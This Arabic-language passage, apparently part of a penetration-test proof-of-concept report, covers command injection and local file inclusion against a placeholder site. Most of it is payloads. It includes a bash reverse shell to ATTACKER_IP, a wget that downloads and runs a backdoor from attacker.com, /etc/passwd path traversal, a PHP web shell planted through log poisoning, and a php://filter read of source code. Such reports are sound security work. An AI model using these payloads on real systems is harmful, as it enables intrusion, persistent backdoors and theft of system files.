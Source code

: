 #### اثبات الاستغلال

**الهدف:** `http://vulnerable-site.com/exec.php?cmd=ls`

**أوامر الاستغلال:**

١. **استخراج معلومات النظام:**
```bash
; id; whoami; uname -a
```
**النتيجة:** تم استخراج معلومات المستخدم ونوع النظام

٢. **إنشاء Reverse Shell:**
```bash
; bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```
**النتيجة:** تم إنشاء اتصال عكسي كامل مع خادم المهاجم

٣. **تنزيل وتركيب باك دور:**
```bash
; wget http://attacker.com/backdoor -O /tmp/backdoor; chmod +x /tmp/backdoor; /tmp/backdoor
```
**النتيجة:** تم تركيب باك دور دائم في النظام

**مستوى الخطورة:** حرج (Critical)  
**التأثير:** وصول كامل إلى نظام التشغيل وتنفيذ أوامر بصلاحيات خادم الويب

---

### ٤. اثبات استغلال ثغرات تضمين الملفات المحلية (Local File Inclusion - LFI)

#### وصف الثغرة
ثغرة LFI تسمح للمهاجم بقراءة ملفات حساسة من على الخادم.

#### اثبات الاستغلال

**الهدف:** `http://vulnerable-site.com/file.php?file=readme.txt`

**أكواد الاستغلال:**

١. **قراءة ملفات حساسة:**
```
../../../etc/passwd
```
**النتيجة:** تم الوصول إلى ملف كلمات مرور النظام ومعرفة جميع المستخدمين

٢. **تسميم السجلات (Log Poisoning):**
```php
<?php system($_GET['cmd']); ?>
```
**الطريقة:** إرسال كود PHP في رأس User-Agent، ثم تضمين ملف السجل
**النتيجة:** تنفيذ أوامر PHP من خلال تضمين ملف السجل المسموم

٣. **استخدام مرشحات PHP:**
```
php://filter/read=convert.base64-encode/resource=index.php
```
**النتيجة:** قراءة كود PHP المصدر بصيغة Base64
